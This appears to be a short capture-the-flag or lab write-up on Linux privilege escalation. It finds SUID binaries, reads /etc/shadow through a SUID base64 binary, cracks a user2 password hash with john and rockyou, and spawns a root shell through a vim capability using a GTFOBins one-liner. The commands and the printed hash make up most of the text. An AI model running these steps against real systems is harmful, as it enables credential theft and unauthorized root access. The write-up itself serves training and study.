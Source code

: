 ____
# Privilege Escalation: `SUID`

#### Finding `SUID`

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

i found my target !!
![base64](base64.png)

#### Let's read the shadow to get the hashes

```bash
base64 /etc/shadow | base64 -d 
```

and i found the desired hashes...

![hash](photos/hash.png)


#### Let's crack the hash of `user2`

```bash
echo '$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/' > hash; john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash
```
 ---
# Privilege Escalation: Capabilities

#### Find the Capabilities
```bash
getcap -r /
```
There is a capability for `VIM`....

[GTFOBINS](https://gtfobins.github.io/)
```bash
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
#### The Flag...
![root](root.png)

---